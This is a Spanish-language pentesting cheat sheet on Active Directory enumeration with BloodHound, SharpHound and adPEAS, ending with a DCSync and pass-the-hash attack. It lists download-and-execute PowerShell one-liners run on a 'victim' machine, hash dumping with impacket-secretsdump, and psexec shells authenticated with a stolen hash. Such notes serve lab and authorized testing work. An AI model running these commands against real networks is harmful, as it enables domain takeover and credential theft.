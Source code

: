 # BloodHound 

Tags: #AD #Powershell #Windows #Enumeracion #BloodHound 

Bloodhound es una app en JavaScript la cual puede identificar fácilmente ataques altamente complejo que de otro modo seria imposible identificar ademas puede identificar grupos con permisos excesivos. Los defensores pueden usar Bloohound para identificar y eliminar esas mismas rutas de ataque. 

## SharpHound 

* [SharpHound](https://github.com/SpecterOps/BloodHound-Legacy/blob/master/Collectors/SharpHound.ps1)
* [SharpHound](https://github.com/puckiestyle/powershell/blob/master/SharpHound.ps1)

```powershell
❯ IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1'); 
❯ Invoke-BloodHound -CollectionMethod All     

Nota: Estos comandos los ejecutamos en la maquina victima Windows para recolectar la información y obtener un archivo '.zip' el cual pasaremos a la herramienta de 'BloodHound' para el analisis 
```

## ADPeas

* [ADPeas](https://github.com/61106960/adPEAS)

```powershell 
❯ IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/61106960/adPEAS/main/adPEAS.ps1')

❯ Invoke-adPEAS    # Módulo para hacer la enumeración automatizada

Nota: Podemos usar ADPeas para hacer la recolección ya que automaticamente ejecuta 'SharpHound'
```

## Subir Data por Python a BloodHound

```bash
❯ bloodhound-python -d Domain.local -u User -p Password -ns IP_DC -c all   # Ejecutamos para recopilar la data y asi poder subir el archivo a la plataforma de Bloodhound

Nota: Importamos todos los archivos que fueron generados en formato 'Json'
```

## SharpHound con credenciales Validas desde un CMD en Windows 

```bash 
# Autenticarse en un 'CMD' en Windows con credenciales validas
❯ runas /netonly /user:domain1.com\username cmd    # Autenticarse con credenciales validas a nivel de red en una CMD en Windows> Este comando abrirá una nueva CMD con las credenciales 

❯ dir \\IP\DIR           # Enumerar el directorio con el usuario autenticado desde una CMD en Windows 

❯ .\SharpHound.exe -c all -d domain1.com --domaincontroller IP   # Enumeración con SharpHound a un dominio con credenciales validas desde una CMD en Windows.
Nota: La herramienta regresará un archivo '.zip' que se debe cargar en 'BloodHound' para analizar

❯ python3 -m http.server 80     # Crear un recurso compartido a nivel de red para pasar archivos 
```

## BloodHound 

* [BloodHound](https://github.com/SpecterOps/BloodHound-Legacy/releases)
* [CustomQueries.json - BloodHound](https://github.com/CompassSecurity/BloodHoundQueries)
* [Neo4j-installation](https://neo4j.com/docs/operations-manual/current/installation/linux/debian/)

```bash 
❯ sudo neo4j console &> /dev/null & disown      # Iniciamos el servicio en el puerto local '7474' y lo independizamos

❯ ./BloodHound --no-sandbox & disown            # Ejecutar como usuario 'root' 
❯ bloodhound &> /dev/null & disown              # Ejecutar 'Bloodhound' e independizarlo

Notas: 
	1. Si es la primera vez que se usa, abrir la web 'localhost:7474', agregar las credenciales 'neo4j:neo4j', despues, colocar una nueva passwd y conectarse al 'Bloodhound'
	2. El 'CustomQueries.json' se descarga y se copia en la carpeta donde esta instalado 'BloodHound'
```

```bash 
Identificar lo siguiente en BloodHound:
	1. Identificación de 'Doman Admins'
	2. Identificación de 'usuarios Kerberoasteables'
	3. Identificación de 'usuarios AS-REP Roastable'
	4. Identificación de vectores de ataque 'Find Shortest Paths to Domain Admins'
	5. Identificación de 'Unsconstrained Delegation'
	6. Identificación de usuarios con permisos sobre GPO 'Find if any domain user has interesting against aGPO'
	7. 
```

## Ataques 'DCSync'

```bash 
# Si encontramos en 'Bloodhound' un usuario que tiene un 'GetChangesAll' sobre el dominio podremos hacer un 'DCSync attack' para obtener el hash del usuario 'Administrador' y por lo tanto efectuar un 'Pass-The-Hash'

❯ impacket-secretsdump <Domain/User@IP>    # Hacemos un ataque 'DCSync', debemos de colocar la passwd del usuario 
❯ impacket-psexec <Domain/Administrator@IP> cmd.exe -hashes <:hash>   # Utilizamos 'psexec' para obtener una consola interactiva autenticandonos como el usuario 'Administrator' y colocando su hash para hacer 'Pass-The-Hash'    
```